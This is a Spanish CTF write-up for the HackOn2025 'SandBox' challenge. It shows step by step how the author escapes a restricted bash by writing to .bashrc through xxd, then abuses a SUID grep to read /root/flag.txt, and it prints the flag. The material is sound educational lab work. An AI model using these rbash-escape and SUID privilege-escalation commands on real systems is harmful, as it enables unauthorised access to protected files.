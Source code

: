 ```yaml
---
title: SandBox - HackOn2025
author: Kesero
description: Reto misc basado en escapar de una rbash y leer flag.txt
date: 2025-02-24 00:00:00 +0000
categories: [Writeups Competiciones Nacionales, Miscelánea N]
tags: [Misc, Misc - Rbash, Writeups, Dificultad - Media]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox/3.png
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `HugoBond`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Not even the dockerfile, just rawdogged like old times"

## Archivos

En reto, solo nos dan una conexión.

- `Servidor en remoto` : Conexión por ncat.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox).

## Entrando al reto.

Para entrar al entorno del reto, simplemente nos tenemos que conectar mediante `openssl` de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

Una vez dentro, se nos desplegará una bash restringida como el usuario `paco`. Nuestro cometido será leer el archivo `flag.txt` el cual se encuentra dentro del directorio `/root`

## Solución

Este tipo de retos requiere tiempo y sobre todo de probar, probar y probar diferentes comandos para ir depurando posibles vías de ataque.

En este caso, la bash nos permite listar archivos mediante `ls` dentro de nuestra carpeta teníamos una carpeta `bin/` con los comandos que podíamos ejecutar los cuales son los siguientes.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ ls bin/

    echo  id  ls  ping  pwd  python  whoami  xxd

De todos estos comandos los que nos llama más la atención son `python` y `xxd` ya que con python podemos jugar de distintas formas para obtener una `bash` sin restricciones, pero la intrusión no viene de este modo, ya que el comando `python` está asociado a la ejecución del script `/opt/test.py` el cual imprime lo siguiente por consola.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ python

    You just lose THE GAME

Como tenemos capacidad de listar directorios con `ls`, podemos listar todo el contenido en el que paco tenga capacidad de lectura. Es en este momento en el que indagaremos por el sistema en busca de información que podamos utilizar a nuestro favor, como rutas de binarios, permisos asociados a los mismos, etc.

Además un truquele que podemos aplicar en estos casos, es que como tenemos el comando `echo`, podemos mostrar el contenido de archivos mediante el siguiente comando.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo $(>.profile)

    # ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi

De esta forma podemos listar el contenido de todos los archivos si paco tiene permisos de lectura en ellos.

Llegados a este punto tenemos capacidad de listar directorios y de listar archivos, pero nos falta la capacidad de escribirlos.

Es en este punto donde el comando `xxd` adquiere gran importancia.

Si observamos en la página de `GTFoBins` el comando [xxd](https://gtfobins.github.io/gtfobins/xxd/), podemos escribir archivos y leer archivos (aunque este listado es menos intuitivo ya que parte lo hace en hexadecimal)

Podemos listar archivos mediante

    LFILE=file_to_read
    xxd "$LFILE" | xxd -r

Podemos escribir archivos mediante

    LFILE=file_to_write
    echo DATA | xxd | xxd -r - "$LFILE"

NOTA: Importante aclarar que la escritura se realiza al comienzo del archivo, por lo que si queremos escribir al final tendremos que copiar todo el contenido del mismo y luego nuestro payload.

Llegados a este punto podemos salir de la `rbash` de distintos modos. El camino que seguí es que como tenemos capacidad de escritura en los archivos cuyo propietario sea `paco`, directamente podemos escribir en nuestra propia `.bashrc` para escapar de la bash.

Aquí se pueden aplicar varios métodos, podemos exportar el $PATH para que incluya rutas del sistema como /usr/bin (actualmente el usuario paco solo tiene en el path /home/paco/bin/), podemos incrustar comandos o abrirnos distintos entornos de ejecuciones como puede ser vim, nano, etc.

Lo que yo hice fue simplemente escribir en `.bashrc` el interprete de python libre restricciones el cual está alojado en `/usr/bin/python3.11`, de esta manera al salir de la bash y volver a conectarnos mediante `openssl`, se ejecutará el contenido dentro de  `.bashrc` y por ende se ejecutará el interprete de `python3.11`. Para ello.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo "exec /usr/bin/python3" | xxd | xxd -r - ".bashrc"

Al salir de la sesión y volver a conectarnos podremos ver que efectivamente, tenemos un interprete de python3.11.2

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

    rbash: cannot set terminal process group (7): Inappropriate ioctl for device
    rbash: no job control in this shell
    Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>

Llegados a este punto podemos ejecutar comandos en el sistema mediante `import os;`, pero seguimos sin tener permisos para leer el directorio `/root`, es por ello que entra el juego la `escalada de privilegios` para poder leer `/root/flag.txt`

Listando con `ls -la` los permisos de los binarios alojados en `/usr/bin/` podemos listar los privilegios `SUID` que tiene el sistema y observamos que hay varios binarios que tiene permisos `SUID` cuyo propietario es `root`, por lo que podemos manipularlos para ejecutar dicho binario con máximos privilegios.

En este punto, yo utilicé el binario `grep` ya que cuenta con permisos `SUID` y nuevamente si utilizamos la página de `GTFoBins` podemos escalar privilegios con el comando [grep](https://gtfobins.github.io/gtfobins/grep/) si este cuenta con el permiso asociado.

    LFILE=file_to_read
    ./grep '' $LFILE

Como podemos ejecutar comandos deste el intérprete de python, utilizamos `grep` como medio de escalada de privilegios y a su vez para leer el archivo `flag.txt` para observar finalmente la flag.

    >>> import os
    >>> os.system("grep '' " + "/root/flag.txt")

    HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}


## Flag

`HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}`